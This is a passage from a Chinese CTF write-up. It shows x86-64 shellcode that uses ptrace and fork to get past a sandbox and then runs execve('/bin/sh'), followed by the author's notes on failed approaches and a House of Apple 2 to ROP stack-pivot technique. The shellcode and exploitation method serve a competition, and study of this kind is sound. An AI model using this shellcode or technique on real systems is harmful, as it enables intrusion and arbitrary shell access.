 ```python
    mov rdi, 0x4200
    mov rsi, r8
    xor rdx, rdx
    mov r10, 0x00000080
    mov rax, 101
    syscall                 /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
    
    mov rdi, 0x7
    mov rsi, r8
    xor rdx, rdx
    xor r10, r10
    mov rax, 101
    syscall                 /* ptrace(PTRACE_CONT, child_pid, 0, 0) */
    
    jmp monitor_child
child_process:
    /* sleep(5) */
    push 0
    push 5
    mov rdi, rsp
    xor esi, esi
    push 0x23
    pop rax
    syscall                 /* nanosleep(requested_time='rsp', remaining=0) */
    
    mov rax, 0x{order1}
    push rax
    mov rdi, rsp
    mov rsi, 0
    xor rdx, rdx
    mov rax, 59
    syscall                 /* execve("/bin/sh",0,0) */
    
    jmp child_process
```

# 随记
当时比赛由于不太清楚ptrace的使用方法，尝试了openat2，结果发现后来出题人使用了比较低的内核版本，当时还没有openat2。
我说那要不试试把栈上的环境变量全部打印出来，说不定能整个非预期，结果出题人在环境变量上放的是假flag。
出题人真的希望咱把ptrace搞懂啊哈哈哈。

# houseofapple2接rop
还有就是这题前半部分的houseofapple2接rop的思路。
有些版本是使用setcontext的gadget，这题是使用svcudp_reply+26的gadget，利用houseofapple2可以控制rdi的特性，在保持控制程序流的情况下，同时控制rbp，以达到栈迁移rop的效果
![svcudp_reply](./svcudp_reply.png)

![leave_ret](./leave_ret.png)
